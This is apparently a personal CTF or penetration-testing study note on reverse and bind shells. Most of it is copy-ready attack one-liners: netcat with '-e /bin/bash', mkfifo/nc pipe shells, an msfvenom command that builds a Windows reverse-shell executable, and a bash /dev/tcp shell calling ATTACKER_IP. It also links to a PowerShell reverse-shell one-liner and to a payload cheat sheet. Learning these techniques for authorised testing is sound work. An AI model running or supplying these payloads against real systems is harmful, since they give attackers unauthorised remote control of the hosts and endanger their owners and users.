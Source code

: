 Same for a Rev Shell, connecting back with `nc <LOCAL-IP> <PORT> -e /bin/bash` would result in a reverse shell on the target. 
**NB!** this is not included in most versions of netcat as it is widely seen to be very insecure

On Windows where a static binary is nearly always required anyway, this technique will work perfectly. On Linux, however, we would instead use this code to create a listener for a bind shell:
- `mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`
- description of this command: > _The command first creates a [named pipe](https://www.linuxjournal.com/article/2156) at `/tmp/f`. It then starts a netcat listener, and connects the input of the listener to the output of the named pipe. The output of the netcat listener (i.e. the commands we send) then gets piped directly into `sh`, sending the stderr output stream into stdout, and sending stdout itself into the input of the named pipe, thus completing the circle._
A very similar command can be used to send a netcat reverse shell:
- `mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`
- This command is virtually identical to the previous one, other than using the netcat connect syntax, as opposed to the netcat listen syntax.

When targeting a modern Windows Server, it is very common to require a Powershell reverse shell, so we'll be covering the standard one-liner PSH reverse shell here.
This command is very convoluted, so for the sake of simplicity it will not be explained directly here. It is, however, an extremely useful one-liner to keep on hand:


<mark style="background: #FFB86CA6;">Link to one-liner</mark> (due to firewall detection deleting the notation file): [link](https://github.com/jrg1a/CTF/blob/main/Privilege%20Escalation/Reverse%20Shell.md)


In order to use this, we need to replace `<IP>` and `<port>` with an appropriate IP and choice of port. It can then be copied into a cmd.exe shell (or another method of executing commands on a Windows server, such as a webshell) and executed, resulting in a reverse shell 

For other common reverse shell payloads, [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) is a repository containing a wide range of shell codes (usually in one-liner format for copying and pasting), in many different languages.


### Msfvenom

Syntax: `msfvenom -p <PAYLOAD> <OPTIONS>`

E.g. Windows x64 Reverse Shell
- `msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>`


### Payloads

`rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT >/tmp/f`

`rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f`

**Normal Bash Reverse Shell**
```shell-session
target@tryhackme:~$ bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1 
```
